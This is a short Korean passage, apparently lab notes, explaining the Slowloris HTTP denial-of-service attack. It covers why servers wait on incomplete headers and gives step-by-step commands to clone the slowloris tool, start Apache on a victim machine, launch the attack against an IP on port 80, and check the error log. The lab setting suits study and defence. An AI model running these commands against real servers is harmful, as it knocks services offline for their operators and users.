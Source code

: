 > 그렇다면 왜 불완전한 헤더가 왔음에도 기다려 주는걸까?
<br>→ 정상적인 요청임에도 헤더가 끊기거나 전달을 기다려야하는 경우가 존재하기 때문이다. HTTP 요청은 여러 개의 **헤더 필드**로 구성되며, **헤더의 끝을 표시하는 특수한 문자열**(`\r\n\r\n`)이 있어야 서버가 요청을 **완전히 받았다고 판단한다.** 이는 정상적인 동작이다.

1. slowloris 설치
    
    `git clone https://github.com/gkbrk/slowloris.git` 을 사용한다.
    
2. victim에서 apache2 서버 열기
    
    `sudo systemctl start apache2`
    
3. 공격 실행
    
    `python [slowloris.py](http://slowloris.py/) <IP> -p 80 -v`
    
    <img src="img/38.png">
    
    수많은 소켓을 열고, 15초 쉬기 → keep-alive(아직 요청 살아있음) 헤더 보내기를 반복해 자원을 소모시킨다.
    
4. 공격 로그 확인
    
    `tail -f /var/log/apache2/error.log` 를 통해서 error를 볼 수 있다.
    
